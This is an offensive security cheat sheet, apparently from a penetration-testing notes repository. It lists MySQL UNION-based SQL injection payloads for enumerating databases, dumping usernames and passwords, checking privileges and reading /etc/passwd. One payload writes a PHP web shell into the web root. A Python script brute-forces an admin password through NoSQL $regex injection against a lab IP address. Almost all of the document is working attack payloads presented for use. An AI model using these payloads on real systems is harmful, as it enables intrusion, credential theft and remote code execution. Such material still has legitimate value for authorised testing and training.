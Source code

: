| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

# Nosql

### Grab password with JSON post request
```python
import json
import requests
import string
import sys

url = 'http://10.10.11.139:5000/login'
def login(pw):
	payload = '{ "$regex": "%s" }' % pw
	data = { "user": "admin","password":json.loads(payload) }
	r = requests.post(url,json=data)
	if 'Invalid Password' in r.text:
		return False
	return True

password = '^'
stop = False
while stop == False:
	for i in string.ascii_letters:
		sys.stdout.write(f'\r{password}{i}')
		if login(f'{password}{i}'):
			password += i
			if login(f"{password}$"):
				sys.stdout.write(f'\r{password}\r\n')
				sys.stdout.flush()
				stop = True
				break
			break
```
